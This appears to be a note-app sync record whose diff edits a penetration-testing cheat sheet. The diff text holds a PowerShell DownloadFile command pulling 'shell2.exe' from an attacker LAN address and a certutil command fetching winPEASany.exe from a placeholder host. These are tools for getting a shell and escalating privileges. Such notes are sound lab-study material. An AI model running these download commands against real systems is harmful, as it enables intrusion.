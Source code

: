 id: 6ab01bf233db4654bba9c829a20dd443
parent_id: aaff61c644a447089ccc2b7469d3f379
item_type: 1
item_id: 7fcb789b143c4fdead546ced081886f7
item_updated_time: 1651824184736
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\").DownloadFile('\"],[1,\"[\"],[0,\"http://192.168.1\"]],\"start1\":336,\"start2\":336,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\".exe\"],[-1,\"')\\\"\"],[1,\"](http://192.168.119.160/shell2.exe%27,%27shell2.exe \\\"http://192.168.119.160/shell2.exe','shell2.exe\\\")')\\\"\\\n\\\n## CertUtil\\\n\\\n> certutil.exe -urlcache -split -f \\\"http://x.x.x.x/winPEASany.exe\\\" winPEASany.exe\"]],\"start1\":395,\"start2\":395,\"length1\":7,\"length2\":205}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-06T08:07:15.095Z
created_time: 2022-05-06T08:07:15.095Z
type_: 13